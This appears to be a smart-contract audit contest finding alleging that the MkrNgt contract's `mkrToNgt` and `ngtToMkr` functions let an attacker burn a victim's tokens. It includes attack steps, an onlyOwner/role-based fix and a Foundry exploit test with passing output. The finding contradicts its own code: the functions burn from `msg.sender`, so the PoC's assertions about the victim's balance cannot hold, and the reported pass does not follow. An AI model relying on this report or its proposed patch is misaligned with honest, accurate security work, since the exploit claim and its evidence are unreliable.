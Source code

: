 Curved Cinnamon Tuna

High

# Unrestricted Token Exchange Functionality in MkrNgt Contract

## Summary
The `MkrNgt` allows unrestricted access to its token exchange functions `mkrToNgt` and `ngtToMkr`. This lack of access control permits any user to burn tokens from any address and mint tokens to any address, potentially leading to unauthorized token transfers and significant financial loss.

## Vulnerability Detail
1. Malicious User Burns Tokens from Other Addresses:
- Step 1: Malicious user (Attacker) knows that the `mkrToNgt` and `ngtToMkr` functions have no access control.
- Step 2: Attacker gets permission (approval) to burn tokens from the victim's address. This can happen if the victim accidentally grants permission through an unsafe transaction.
- Step 3: Attacker calls the `mkrToNgt` or `ngtToMkr` function with `msg.sender` as the victim's address and `usr` as the attacker's address.
- Step 4: The function burns tokens from the victim's address and prints tokens to the attacker's address.

2. Sybil Attack:
- Step 1: Attacker creates many fake accounts (Sybil accounts).
- Step 2: Attacker uses these accounts to repeatedly call the `mkrToNgt` and `ngtToMkr` functions, trying different combinations to exploit the system.
- Step 3: Without access control, attackers can try various ways to manipulate token exchanges and mint tokens to their own accounts.

## Impact
- Unauthorized Token Transfers
- Financial Loss
- System Exploitation

## Code Snippet
https://github.com/sherlock-audit/2024-06-makerdao-endgame/blob/main/ngt/src/MkrNgt.sol#L41-L53

## Tool used

Manual Review

## Recommendation
Implement strict access control mechanisms to restrict who can call the `mkrToNgt` and `ngtToMkr` functions. Consider using role-based access control or ownership checks to ensure only authorized users can perform token exchanges.
1. Using Ownable:
```diff
+   import "@openzeppelin/contracts/access/Ownable.sol";

-   contract MkrNgt {
+   contract MkrNgt is Ownable {

-   function mkrToNgt(address usr, uint256 mkrAmt) external {
+   function mkrToNgt(address usr, uint256 mkrAmt) external onlyOwner {
        mkr.burn(msg.sender, mkrAmt);
        uint256 ngtAmt = mkrAmt * rate;
        ngt.mint(usr, ngtAmt);
        emit MkrToNgt(msg.sender, usr, mkrAmt, ngtAmt);
    }

-   function ngtToMkr(address usr, uint256 ngtAmt) external {
+   function ngtToMkr(address usr, uint256 ngtAmt) external onlyOwner {
        ngt.burn(msg.sender, ngtAmt);
        uint256 mkrAmt = ngtAmt / rate; // Rounding down, dust will be lost if it is not multiple of rate
        mkr.mint(usr, mkrAmt);
        emit NgtToMkr(msg.sender, usr, ngtAmt, mkrAmt);
    }
```
2. Using Role-Based Access Control:
```solidity
import "@openzeppelin/contracts/access/AccessControl.sol";

contract MkrNgt is AccessControl {
    bytes32 public constant EXCHANGER_ROLE = keccak256("EXCHANGER_ROLE");

    constructor(address mkr_, address ngt_, uint256 rate_) {
        mkr = GemLike(mkr_);
        ngt = GemLike(ngt_);
        rate = rate_;
        _setupRole(DEFAULT_ADMIN_ROLE, msg.sender);
        _setupRole(EXCHANGER_ROLE, msg.sender);
    }

    function mkrToNgt(address usr, uint256 mkrAmt) external onlyRole(EXCHANGER_ROLE) {
        mkr.burn(msg.sender, mkrAmt);
        uint256 ngtAmt = mkrAmt * rate;
        ngt.mint(usr, ngtAmt);
        emit MkrToNgt(msg.sender, usr, mkrAmt, ngtAmt);
    }

    function ngtToMkr(address usr, uint256 ngtAmt) external onlyRole(EXCHANGER_ROLE) {
        ngt.burn(msg.sender, ngtAmt);
        uint256 mkrAmt = ngtAmt / rate;
        mkr.mint(usr, mkrAmt);
        emit NgtToMkr(msg.sender, usr, ngtAmt, mkrAmt);
    }
}
```

## PoC
```solidity
// SPDX-License-Identifier: AGPL-3.0-or-later
pragma solidity ^0.8.21;

import "forge-std/Test.sol";
import "../src/MkrNgt.sol";

contract MockGem is GemLike {
    mapping(address => uint256) public balances;
    mapping(address => mapping(address => uint256)) public allowances;

    function burn(address from, uint256 amount) external override {
        require(balances[from] >= amount, "Insufficient balance");
        balances[from] -= amount;
    }

    function mint(address to, uint256 amount) external override {
        balances[to] += amount;
    }

    function approve(address spender, uint256 amount) external {
        allowances[msg.sender][spender] = amount;
    }

    function balanceOf(address account) external view returns (uint256) {
        return balances[account];
    }
}

contract ExploitTest is Test {
    MkrNgt public mkrNgt;
    GemLike public mkr;
    GemLike public ngt;
    address public attacker;
    address public victim;

    function setUp() public {
        // Deploy mock tokens
        mkr = new MockGem();
        ngt = new MockGem();

        // Deploy the MkrNgt contract
        mkrNgt = new MkrNgt(address(mkr), address(ngt), 1);

        // Set up attacker and victim addresses
        attacker = address(0x1);
        victim = address(0x2);

        // Mint some tokens to the victim and attacker
        MockGem(address(mkr)).mint(victim, 1000);
        MockGem(address(ngt)).mint(victim, 1000);
        MockGem(address(mkr)).mint(attacker, 1000); // Mint tokens to the attacker

        // Approve the MkrNgt contract to burn victim's tokens
        vm.prank(victim);
        MockGem(address(mkr)).approve(address(mkrNgt), 1000);
        MockGem(address(ngt)).approve(address(mkrNgt), 1000);

        // Approve the MkrNgt contract to burn attacker's tokens
        vm.prank(attacker);
        MockGem(address(mkr)).approve(address(mkrNgt), 1000);
        MockGem(address(ngt)).approve(address(mkrNgt), 1000);
    }

    function testExploitWithoutAccessControl() public {
        // Step 1: Attacker calls mkrToNgt with victim's address
        vm.prank(attacker);
        mkrNgt.mkrToNgt(victim, 100);

        // Check balances after the exploit
        assertEq(MockGem(address(mkr)).balanceOf(victim), 900, "Victim's MKR balance should be reduced");
        assertEq(MockGem(address(ngt)).balanceOf(attacker), 100, "Attacker's NGT balance should be increased");

        // Step 2: Attacker calls ngtToMkr with victim's address
        vm.prank(attacker);
        mkrNgt.ngtToMkr(victim, 100);

        // Check balances after the exploit
        assertEq(MockGem(address(ngt)).balanceOf(victim), 900, "Victim's NGT balance should be reduced");
        assertEq(MockGem(address(mkr)).balanceOf(attacker), 1100, "Attacker's MKR balance should be increased");

        // If the exploit is successful, the test should pass
        emit log("Exploit successful, test passed.");
    }
}
```
forge test --match-path test/ExploitTest.sol
[⠊] Compiling...
[⠔] Compiling 1 files with Solc 0.8.21
[⠒] Solc 0.8.21 finished in 1.38s
Compiler run successful!

Ran 1 test for test/ExploitTest.sol:ExploitTest
[PASS] testExploitWithoutAccessControl() (gas: 78590)
Logs:
  Exploit successful, test passed.

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.08ms (216.00µs CPU time)

Ran 1 test suite in 8.10ms (1.08ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
